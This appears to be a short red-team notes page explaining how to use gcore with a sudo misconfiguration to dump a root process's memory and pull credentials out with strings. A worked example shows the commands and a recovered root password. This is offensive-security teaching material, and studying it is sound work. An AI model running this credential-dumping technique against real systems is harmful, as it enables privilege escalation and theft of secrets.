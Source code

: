 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Gcore

`gcore` is a CLI that creates a core dump of a running process without stopping it. This memory snapshot includes the process’s stack, heap, and loaded libraries, and is useful for **extracting sensitive data** or analyzing execution state during red team operations. It requires the PID of the target process and appropriate permissions. The output (`core.<PID>`) can be examined with tools like `gdb` or simply via `strings` making `gcore` valuable for stealthy, in-memory analysis during post-exploitation.

{% code overflow="wrap" %}
```bash
# Check user's permissions
$ sudo -l
User x7331 may run the following commands on kali:
    (ALL) NOPASSWD: /usr/bin/gcore
    
# List root processes
$ ps -u root -o pid,comm
490 password-store

# Dump the process
$ sudo gcore 490
​
# Inspect the file
$ strings core.490
001 Password: root:
R00tM3Plz!!!
```
{% endcode %}

